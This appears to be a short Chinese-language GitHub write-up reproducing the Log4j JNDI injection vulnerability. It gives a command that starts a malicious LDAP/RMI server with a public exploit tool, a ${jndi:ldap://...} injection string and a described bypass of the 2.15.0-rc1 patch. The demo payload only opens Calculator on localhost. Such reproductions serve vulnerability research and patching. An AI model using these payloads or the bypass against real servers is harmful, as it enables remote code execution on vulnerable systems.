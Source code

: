 ## 复现

- 启动恶意LDAP / RMI 服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
```

工具地址：https://github.com/welk1n/JNDI-Injection-Exploit

![](1.png)

- 连接启动的恶意server

```
${jndi:ldap://127.0.0.1:1389/xxxxxx}
```

![](2.png)

## 修复绕过细节

1. Apache官方的 2.15.0-rc1对漏洞进行了修复，对传入的 `${}` 进行了判断，不存在ldap/rmi这种才会进行lookup
2. 但是增加了一个功能，就是 判断`${}`有错误时，会进入 exception中，又会执行lookup，所以可以构造异常的poc，使其进入exception中，从而执行lookup
3. Poc，加一个空格就行了。。。

## 各大厂商都中招

![](3.jpg)

![](4.jpg)

![](5.png)

更多影响面，参见 https://github.com/YfryTchsGD/Log4jAttackSurface